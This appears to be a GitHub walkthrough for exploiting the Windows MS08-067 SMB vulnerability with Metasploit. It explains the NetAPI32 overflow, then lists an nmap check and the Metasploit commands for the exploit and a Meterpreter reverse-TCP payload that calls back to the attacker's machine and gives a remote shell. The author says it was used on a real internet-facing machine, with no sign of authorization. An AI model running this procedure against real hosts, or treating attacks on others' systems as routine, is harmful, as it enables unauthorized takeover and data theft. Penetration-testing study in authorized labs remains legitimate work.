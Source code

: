penetration test with Metasploit to SMB protocol in machine running Windows Operating System. 

This test done in 2018 on the windows machine located on internet in the real world and gains the full control of the windows command prompt.

Scenario:

(Good old MS08_067 would be a good place to start)

Description: The servers of Microsoft Windows provide support for sharing resources, such as files and print services over a network. This service is vulnerable to remote code execution, and NetAPI32.dll is the cause of this vulnerability.

While windows process a directory traversal (maker) character sequence in path names, there is an error generated in NetAPI32.dll. The vulnerability could be exploited by corrupting stack memory. An example would be sending RPC requests that contain specially crafted (made) path names to the server service component(SRVSVC). The result cause buffer overflow in memory and finally gives full access to the command shell of the target machine.

First, identify that the target Windows is vulnerable to MS08-067 or not. Open your terminal and enter the following Nmap command: 
  
  nmap -p445 --script smb-vuln-ms08-067

A)Find IP address of each machine with "ifconfig" in Backtrack and in Windows using "ipconfig".

B)In Backtrack/Kali terminal: 

  1.msfconsole 

  2.use exploit/windows/smb/ms08_067_netapi

Here we are able to see the options of "SMB" exploit by typing this command: 

  3.options 

  4.set rhosts <Target_IP>

C)In the next step we need to set up a listener to handle reverse connection from our exploit(if it's successfully triggered):

  1.set payload windows/meterpreter/reverse_tcp

  2.set lhost <Backtrack_IP>

  3.exploit

Note) during the attack, we are able to trace the exploitation step by step through the wireshark.

After watching "session 1 is open" you succeed to enter the target machine. Now you are in the shell of the target and be able to create/change files and folders.

To exit from "Meterpreter" environment you can type "quit".
